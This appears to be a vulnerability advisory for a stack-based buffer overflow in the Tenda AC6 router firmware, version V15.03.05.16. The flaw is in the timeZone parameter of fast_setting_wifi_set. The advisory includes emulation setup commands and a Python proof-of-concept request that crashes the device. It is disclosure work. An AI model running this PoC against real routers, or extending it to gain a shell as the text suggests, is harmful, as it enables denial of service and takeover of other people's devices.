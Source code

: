 form\_fast\_setting\_wifi\_set  timeZone
----------------------------------------

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

  
This function accepts the POST parameter timeZone, does not verify its length, and copies it directly to a local variable on the stack, resulting in a stack overflow. This vulnerability allows an attacker to cause a denial of service (DoS), but of course you can build a payload to get a stable shell to control the device.

![](api/attachments/MUgRNGsrj29y/image/image.png)

A vulnerability was found in Tenda AC6 V15.03.05.16. The vulnerability affects the functionality of the /goform/fast\_setting\_wifi\_set file form\_fast\_setting\_wifi\_set. Using the timeZone parameter causes a stack-based buffer overflow. The attack can be launched remotely.

### poc

```text-plain
import requests

# URL
url = "http://192.168.142.100/goform/fast_setting_wifi_set"


# POST
data = {
    "ssid": b"Raining",
    "timeZone": b'Raining'*0x100
}


response = requests.post(url,data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```

![](api/attachments/OHRp2yJGNXI6/image/image.png)
